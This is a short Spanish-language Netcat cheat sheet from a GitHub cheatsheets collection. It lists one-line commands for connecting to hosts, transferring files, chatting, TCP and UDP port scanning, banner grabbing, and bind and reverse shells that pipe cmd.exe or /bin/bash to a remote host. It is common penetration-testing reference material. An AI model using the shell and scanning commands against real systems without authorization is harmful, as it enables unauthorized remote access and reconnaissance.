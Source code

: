 # Netcat Cheat Sheet

#### Conectarnos a un puerto de un host

- `nc -nv <IPAddress> <Port>`: Conexión a un host.

#### Transferir un archivo

- `nc -nvlp <Port> > output.txt`: Host a recibir el archivo en el puerto especificado.

- `nc -nv <IPAddress> <Port> < input.txt`: Host que envia el archivo al host destino.

#### Chatear entre hosts

- `nc -nvlp <Port>`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port>`: Host se conecta al host al puerto abierto.

#### Bind Shell (Windows)

- `nc -nvlp <Port> -e cmd.exe`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port>`: Conexión a la shell.

#### Bind Shell (Linux)

- `nc -nvlp <Port> -e /bin/bash`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port>`: Conexión a la shell.

#### Reverse Shell (Windows)

- `nc -nvlp <Port>`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port> -e cmd.exe`: Conexión al host y mandamos la shell.

#### Reverse Shell (Linux)

- `nc -nvlp <Port>`: Escuchando la conexión.

- `nc -nv <IPAddress> <Port> -e /bin/bash`: Conexión al host y mandamos la shell.

#### Escanear Puertos TCP

Linux:
- `nc -nvz -w 1 <IPAddress> <Port-Range>`: Escanear la IP del host con el rango de puertos.

MacOS:
- `nc -nvz -w 1 -G 1 <IPAddress> <Port-Range>`: Escanear la IP del host con el rango de puertos.

#### Escanear Puertos UDP

Linux:
- `nc -nvzu -w 1 <IPAddress> <Port-Range>`: Escanear la IP del host con el rango de puertos.

MacOS:
- `nc -nvzu -w 1 -G 1 <IPAddress> <Port-Range>`: Escanear la IP del host con el rango de puertos.

#### Banner Grabbing

- `echo "" | nc -nv -w1 <IPAddress> <Port>`: Banner Grabbing.

---

[:arrow_left: Regresar](https://github.com/m4lal0/cheatsheets)